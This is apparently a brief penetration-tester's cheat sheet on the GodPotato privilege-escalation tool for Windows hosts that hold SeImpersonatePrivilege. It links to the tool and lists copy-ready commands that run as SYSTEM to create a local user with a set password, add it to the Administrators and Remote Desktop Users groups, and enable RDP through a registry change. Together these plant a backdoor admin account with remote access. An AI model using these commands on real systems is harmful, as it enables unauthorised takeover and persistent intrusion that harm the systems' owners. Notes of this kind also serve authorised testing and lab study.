 # GodPotato useage:

with SeImpersonatePrivilege we can use God Potato.  
  
https://github.com/BeichenDream/GodPotato/tree/main  
  
Get the latest release here and put it on the target machine (I used NET2.exe):  
https://github.com/BeichenDream/GodPotato/releases  
  
  
Now we can create a new user: 
```
.\GodPotato-NET2.exe -cmd "net user kyser password /add"  
```
  
Put them in the Administrators group: 
```
.\GodPotato-NET2.exe -cmd "net localgroup Administrators kyser /add"  
```
  
Put them in the Remote Desktop users Group: 
```
.\GodPotato-NET2.exe -cmd "net localgroup "Remote Desktop Users" kyser /add"  
```
    
And enable RDP with:  
```
.\GodPotato-NET2.exe -cmd 'reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f'  
```
